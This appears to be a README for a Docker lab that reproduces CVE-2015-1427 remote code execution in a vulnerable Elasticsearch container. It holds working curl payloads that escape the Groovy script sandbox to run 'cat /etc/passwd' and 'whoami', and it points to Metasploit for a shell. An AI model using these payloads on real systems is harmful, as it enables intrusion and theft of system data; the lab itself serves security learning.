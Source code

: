 # Remote Code Execution in a vulnerable Elasticsearch container

PoC rely on *CVE-2015-1427* exploitation https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-1427

## Pre-requisites
- docker
- docker-compose

#### Launch containers

`docker-compose up -d`

Enter in attacker container and play a little with Elastic RCE with `docker exec -it elhackstic_badguy_1 bash`

Check if elastic is responding
```bash 
ping elhackstic_vulnerable_1
```

or 
```bash
curl http://elhackstic_vulnerable_1:9200
```

elastic API will reply :
```
{
  "status" : 200,
  "name" : "Namorita",
  "cluster_name" : "elasticsearch",
  "version" : {
    "number" : "1.4.2",
    "build_hash" : "927caff6f05403e936c20bf4529f144f0c89fd8c",
    "build_timestamp" : "2014-12-16T14:11:12Z",
    "build_snapshot" : false,
    "lucene_version" : "4.10.2"
  },
  "tagline" : "You Know, for Search"
}
```

example of data creation :
```bash 
curl -XPUT 'http://elhackstic_vulnerable_1:9200/twitter/user/yren' -d '{ "name" : "Wu" }'

{"_index":"twitter","_type":"user","_id":"yren","_version":1,"created":true}
```

#### Let's play with code injection

Information gathering

```bash
curl -XPOST 'http://elhackstic_vulnerable_1:9200/_search?pretty' -d '{"script_fields": {"payload": {"script": "java.lang.Math.class.forName(\"java.lang.System\").getProperty(\"os.name\")"}}}'
```

```bash
curl -XPOST 'http://elhackstic_vulnerable_1:9200/_search?pretty' -d '{"script_fields": {"payload": {"script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"cat /etc/passwd\").getText()"}}}'
```

```bash
curl -XPOST 'http://elhackstic_vulnerable_1:9200/_search?pretty' -d '{"script_fields": {"payload": {"script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"whoami\").getText()"}}}'
```

```
...
        "payload" : [ "root\n" ]
...
```

Finally you easily can get a shell with metasploit.

or try https://github.com/XiphosResearch/exploits/tree/master/ElasticSearch

#### Sources

- https://jordan-wright.com/blog/2015/03/08/elasticsearch-rce-vulnerability-cve-2015-1427/
- https://www.exploit-db.com/exploits/36337/
- https://www.exploit-db.com/exploits/36415/
